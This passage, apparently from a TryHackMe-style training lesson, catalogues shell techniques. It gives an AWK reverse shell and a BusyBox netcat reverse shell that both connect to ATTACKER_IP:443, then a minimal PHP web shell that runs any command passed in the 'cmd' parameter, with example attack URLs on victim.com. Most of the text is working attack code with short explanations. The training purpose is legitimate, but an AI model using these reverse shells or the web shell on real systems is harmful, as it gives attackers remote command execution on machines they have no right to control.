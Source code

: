 
#### AWK

```bash
target@tryhackme:~$ awk 'BEGIN {s = "/inet/tcp/0/ATTACKER_IP/443"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null
```
This reverse shell uses AWK’s built-in TCP capabilities to connect to ATTACKER_IP:443. It reads commands from the attacker and executes them. Then it sends the results back over the same TCP connection.


#### BusyBox

```bash
target@tryhackme:~$ busybox nc ATTACKER_IP 443 -e sh
```
This BusyBox reverse shell uses Netcat (nc) to connect to the attacker at ATTACKER_IP:443. Once connected, it executes /bin/sh, exposing the command line to the attacker.

---

## Web Shell

A web shell is a script written in a language supported by a compromised web server that executes commands through the web server itself. A web shell is usually a file containing the code that executes commands and handles files. It can be hidden within a compromised web application or service, making it difficult to detect and very popular among attackers.

Web shells can be written in several languages supported by web servers, like PHP, ASP, JSP, and even simple CGI scripts. 


### Example PHP Web Shell

Let’s look at an example PHP web shell to understand how this process works:

```php
<?php
if (isset($_GET['cmd'])) {
    system($_GET['cmd']);
}
?>
```

The above shell can be saved into a file with the PHP extension, like `shell.php`, and then uploaded into the web server by the attacker by exploiting vulnerabilities such as Unrestricted File Upload, File Inclusion, Command Injection, among others, or by gaining unauthorized access to it. 
After the web shell is deployed in the server, it can be accessed through the URL where the web shell is hosted, in this example `http://victim.com/uploads/shell.php`. As we observed from the code in `shell.php`, we need to provide a GET method and the value of the variable `cmd`, which should contain the command the attacker wants to execute. For example, if we want to execute the command whoami the request to the URL should be:

`http://victim.com/uploads/shell.php?cmd=whoami`
